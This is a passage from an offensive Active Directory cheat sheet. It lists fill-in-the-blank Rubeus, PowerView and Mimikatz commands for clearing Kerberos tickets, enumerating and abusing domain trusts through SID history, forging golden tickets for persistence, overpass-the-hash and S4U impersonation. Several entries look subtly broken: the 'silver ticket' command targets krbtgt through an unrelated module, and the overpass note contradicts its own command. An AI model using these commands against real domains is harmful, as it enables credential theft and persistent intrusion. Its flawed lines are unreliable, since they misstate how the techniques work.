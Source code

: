 ## Defense Evasion

#### Clearing Kerberos Tickets
- **Rubeus**:
  ```powershell
  Rubeus.exe purge
  ```

## Domain Trust Exploitation

#### Enumerate Domain Trusts
- **PowerView**:
  ```powershell
  Get-NetDomainTrust
  ```

#### Exploiting Inter-Trust Relationships
- **Mimikatz (SID History Attack)**:
  ```powershell
  kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID>-500 /sids:<target_domain_SID>-519 /krbtgt:<NTLM_hash> /target:<target_domain> /rc4:<NTLM_hash>
  ```

## Persistence

#### Persistence via Kerberos Tickets
- **Golden Ticket Persistence**:
  ```powershell
  kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id>
  ```

#### Silver Ticket Persistence
- **Mimikatz**:
  ```powershell
  tgt::deleg /domain:<domain> /sid:<SID> /target:<target_server> /rc4:<NTLM_hash> /user:<username> /service:krbtgt
  ```

## Advanced Kerberos Attack Techniques

#### Overpass-the-Ticket Attack (Pass-the-Key)
- **Mimikatz**:
  ```powershell
  sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<NTLM_hash> /rc4:<NTLM_hash> /aes256:<AES256_Key> /run:cmd.exe
  ```
  This command is used to perform an Overpass-the-Ticket attack where you can provide the AES key instead of the NTLM hash.

#### Abuse of S4U2Self and S4U2Proxy (Service-for-User-to-Self and Proxy)
- **Rubeus S4U**:
  ```powershell
  Rubeus.exe s4u /user:<service_account> /rc4:<NTLM_hash> /impersonateuser:<target_user> /msdsspn:<target_service>
  ```
  This allows an attacker to request a service ticket to a specified service (S4U2Self), and then request a ticket on behalf of the user (S4U2Proxy).
